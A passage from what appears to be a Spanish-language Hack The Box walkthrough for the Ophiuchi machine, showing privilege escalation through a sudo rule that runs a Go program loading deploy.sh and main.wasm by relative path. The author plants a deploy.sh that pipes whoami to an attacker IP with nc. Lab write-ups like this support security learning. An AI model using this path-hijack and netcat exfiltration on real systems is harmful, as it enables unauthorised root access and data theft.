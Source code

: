   <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/ssh.png">
  </p>

 Podemos ver que las credenciales son validas para entrar por **ssh** y con el usuario **admin**, si enumeramos el sistema para encontrar una potencial ruta para escalar privilegios podemos ver que el usuario **admin** puede tiene permisos a nivel de sudo sin proporcionar contraseña y como el usuario **root** el siguiente permiso:

 ```bash
admin@ophiuchi:~$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go

 ```

 Al examinar el archivo **index.go** se puede ver que la llamada de **deploy.sh** y **main.wasm** esta siendo llamadas de forma relativa por lo que a l ahora de ejecutar este comando tomaría los archivos desde la ruta en la que nos encontremos y podemos aprovechar esto para poder crear un archivo **deploy.sh** que sea ejecutado a nuestra conveniencia.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/info.png">
 </p>

 Como se puede ver en el código para que a la hora de hacer el comando nos ejecute **deploy.sh** en **"main.wasm"** la instancia llamada **"info"** debe valer **1**, para comprobar si esto es así me cree un directorio en la ruta **/tmp/winsad** y ahí cree mi **deploy.sh** con el siguiente contenido:

 ```bash
 #!/bin/bash

 whoami | nc 10.10.15.125 443
 ```  

 Lo que estoy indicando es que si el archivo **main.wasm** que esta en la ruta **/opt/wasm-functions/** tiene el valor seteado de **$info** en **1** a la hora de hacer el comando con sudo me enviara un whoami a mi maquina. Para esto pase el **main.wasm** a **/tmp/winsad** con el comando cp:

```python
admin@ophiuchi:/opt/wasm-functions$ ll
total 3928
drwxr-xr-x 3 root root    4096 Oct 14  2020 ./
drwxr-xr-x 5 root root    4096 Oct 14  2020 ../
drwxr-xr-x 2 root root    4096 Oct 14  2020 backup/
-rw-r--r-- 1 root root      88 Oct 14  2020 deploy.sh
-rwxr-xr-x 1 root root 2516736 Oct 14  2020 index*
-rw-rw-r-- 1 root root     522 Oct 14  2020 index.go
-rwxrwxr-x 1 root root 1479371 Oct 14  2020 main.wasm*
admin@ophiuchi:/opt/wasm-functions$ cp main.wasm /tmp/winsad/main.wasm
admin@ophiuchi:/opt/wasm-functions$ cd /tmp/winsad/
admin@ophiuchi:/tmp/winsad$ ls
main.wasm
admin@ophiuchi:/tmp/winsad$ md5sum /opt/wasm-functions/main.wasm
25a1a35c819577d06c8cc751bf9a2ea3  /opt/wasm-functions/main.wasm
admin@ophiuchi:/tmp/winsad$ md5sum main.wasm
25a1a35c819577d06c8cc751bf9a2ea3  main.wasm

```
  Ya que tengo el binario en la ruta que me importa hago uso del comando sudo para comprobar si el binario tiene seteado ese valor en la variable **info**:
